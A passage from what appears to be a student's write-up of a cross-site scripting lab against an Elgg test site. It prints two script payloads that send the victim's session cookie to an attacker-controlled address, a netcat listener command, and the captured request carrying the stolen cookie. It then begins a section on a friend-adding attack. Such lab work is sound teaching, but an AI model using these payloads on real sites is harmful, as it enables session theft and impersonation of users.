 The alert successfully displayed the cookie, confirming that JavaScript can access sensitive data. Next, I crafted a payload to steal cookies by sending them to a controlled server: 

```yaml
<script>
document.write('<img src="http://10.9.0.1:5555?c:'+(document.cookie)+'">');
</script> 
```

or
```yaml
<script>
document.write('<img src="http://10.9.0.1:5555?c=' + encodeURIComponent(document.cookie) + '">');
</script>
```

I set up a listener on my server using Netcat: `nc -l -p 5555 -n -k -v`

The listener captured the following request, including the user’s cookie:
```yaml
┌──(root㉿kali)-[/home/…/web/module_2]
└─# nc -l -p 5555 -k -v -n
listening on [any] 5555 ...
connect to [10.9.0.1] from (UNKNOWN) [192.168.64.12] 38050
GET /?c:Elgg=to8cmeaafevbh5d47tib20l7ui HTTP/1.1
Host: 10.9.0.1:5555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://www.seed-server.com/
Connection: keep-alive
Priority: u=4, i

$
```

This captured cookie `(Elgg=to8cmeaafevbh5d47tib20l7ui)` can be used to impersonate the user.

# Attack to Befriend a User (GET Request)

I analyzed the website’s friend-adding mechanism, which uses a GET request with the following parameters:
